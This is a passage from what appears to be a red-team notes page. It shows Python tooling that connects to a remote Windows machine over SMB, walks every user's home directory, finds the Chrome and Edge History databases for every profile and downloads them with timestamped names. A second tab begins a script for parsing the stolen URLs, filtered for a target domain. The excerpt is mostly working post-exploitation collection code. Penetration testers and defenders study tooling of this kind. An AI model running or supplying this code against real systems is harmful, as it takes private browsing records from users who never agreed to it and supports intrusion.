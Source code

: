 ```python
			if item.is_directory() and username not in ('.', '..'):
				usernames.append(username)
	except Exception as e:
		LOG.error(f'Failed to enumerate user homes: {e}')
		return False

	browser_configs = dict.fromkeys(browsers, [])
	for browser in browsers:
		if browser == 'edge':
			browser_configs[browser] = ('msedge.exe', 'Microsoft\\Edge')
		elif browser == 'chrome':
			browser_configs[browser] = ('chrome.exe', 'Google\\Chrome')

	history_to_get = dict.fromkeys(browsers, [])
	for browser, config in browser_configs.items():
		for username in usernames:
			browser_history_path = f'\\Users\\{username}\\AppData\\Local\\{config[1]}\\User Data\\Default\\History'
			try:
				_ = self.smb.listPath(self.share, browser_history_path)
			except:
				pass
			else:
				history_to_get[browser].append((browser_history_path, f'{username}_Default'))
			browser_history_path = f'\\Users\\{username}\\AppData\\Local\\{config[1]}\\User Data\\Profile*'
			try:
				for profile in self.smb.listPath(self.share, browser_history_path):
					profile = profile.get_longname()
					browser_history_path = browser_history_path.rsplit('\\', 1)[0] + f'\\{profile}\\History'
					history_to_get[browser].append((browser_history_path, f'{username}_{profile.replace(" ", "")}'))
			except:
				pass

	for browser, histories in history_to_get.items():
		if histories:
			for history in histories:
				history_path, username = history
				self.do_get(history_path)
				new_history_name = f'history_{self.target_name}_{username}_{browser}_{datetime.now().strftime("%Y%m%dT%H%M%S")}.sqlite'
				os.rename('History', new_history_name)
				if Path(new_history_name).exists():
					LOG.info(f'Downloaded "C:{history_path}" to "{new_history_name}"')
```
{% endcode %}
{% endtab %}
{% tab title="Parse Latest URLs" %}
{% code title="parse_urls.py" %}
```python
# python -u parse_urls.py | grep -i megacorp.com | less

import os
import sqlite3
from urllib.parse import urlparse
from datetime import datetime, timezone

def convert_chromium_time(webkit_timestamp):
    try:
        unix_timestamp = webkit_timestamp / 1000000 - 11644473600
        return datetime.fromtimestamp(unix_timestamp, timezone.utc)
```